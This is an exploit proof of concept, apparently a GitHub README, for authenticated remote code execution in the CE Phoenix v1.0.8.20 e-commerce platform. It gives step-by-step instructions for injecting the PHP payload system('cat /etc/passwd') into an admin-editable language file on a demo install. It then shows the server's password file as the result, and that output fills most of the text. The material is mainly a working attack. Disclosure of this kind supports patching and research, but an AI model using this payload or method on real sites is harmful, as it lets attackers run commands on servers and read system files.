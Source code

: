 ## Exploit Title: CE Phoenix v1.0.8.20 - Remote Code Execution (RCE) (Authenticated)
##### Date: 2023-11-25
##### Exploit Author: tmrswrr
##### Category: Webapps
##### Vendor Homepage: [CE Phoenix](https://phoenixcart.org/)
##### Version: v1.0.8.20
##### Tested on: [Softaculous Demo - CE Phoenix](https://www.softaculous.com/apps/ecommerce/CE_Phoenix)

### POC:

<img src="https://raw.githubusercontent.com/capture0x/Phoenix/main/1.png" alt="Magento Image" width="1000">
<img src="https://raw.githubusercontent.com/capture0x/Phoenix/main/2.png" alt="Magento Image" width="1000">


1. **Login to admin panel:** 
    - Visit: `https://demos6.softaculous.com/CE_Phoenixvkqhcarjmw/admin/define_language.php?lngdir=english`
    
2. **Access english.php:**
    - Click on `english.php` and inject the payload: 
    ```
    <?php echo system('cat /etc/passwd'); ?>
    ```
    
3. **Save Changes:**
    - Save the modified file.

4. **View Results:**
    - Visit the main page: `https://demos6.softaculous.com/CE_Phoenixvkqhcarjmw/`
    - You will see the following result:


root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
soft:x:1000:1000::/home/soft:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
emps:x:995:1001::/home/emps:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
vmail:x:5000:5000::/var/local/vmail:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
webuzo:x:993:993::/home/webuzo:/bin/bash
apache:x:992:991::/home/apache:/sbin/nologin
apache:x:992:991::/home/apache:/sbin/nologin

